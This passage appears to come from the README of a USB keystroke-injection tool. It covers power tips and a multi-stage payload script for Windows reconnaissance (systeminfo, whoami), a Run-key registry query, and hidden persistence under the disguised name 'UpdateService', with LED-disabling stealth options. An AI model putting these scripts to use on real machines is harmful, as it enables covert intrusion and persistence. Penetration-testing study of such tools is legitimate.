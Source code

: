 **Optimization Tips:**
```bash
# For memory-constrained operations:
1. Use shorter string literals
2. Reuse commands with REPEAT
3. Store complex scripts as button scripts
4. Use LOLBAS instead of long manual sequences
```

### Power Management

**Battery Operation:**
```bash
# Extend battery life:
STEALTH_ON        # Disable LED
DISABLE_BUTTON    # Prevent accidental activation
DELAY 1000        # Add delays to reduce duty cycle
# Typical consumption: 40-80mA during operation
```

**USB Power Considerations:**
```bash
# Ensure stable USB power:
- Use quality USB cables
- Avoid USB hubs if possible
- Test with different power sources
- Monitor for voltage drops during transmission
```

## 🎯 Advanced Usage Patterns

### Multi-Stage Attack Chains

**Phase-Based Execution:**
```bash
# Stage 1: Reconnaissance
BUTTON_DEF
DELAY 3000
LOLBAS_CMD "systeminfo && whoami /all"
ENTER
DELAY 2000
STRING Phase 1 Complete - Reconnaissance
ENTER
END_BUTTON

# Stage 2: Privilege Escalation  
BUTTON2_DEF
DELAY 3000
LOLBAS_REG query "HKLM\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run"
ENTER
DELAY 2000
STRING Phase 2 Complete - Privilege Assessment
ENTER
END_BUTTON2

# Stage 3: Persistence (Easter Egg)
HIDE_EGG "STRING Phase 3: Establishing Persistence; ENTER; DELAY 1000; LOLBAS_REG add \"HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Run\" /v \"UpdateService\" /t REG_SZ /d \"C:\\Windows\\System32\\notepad.exe\"; ENTER"
```
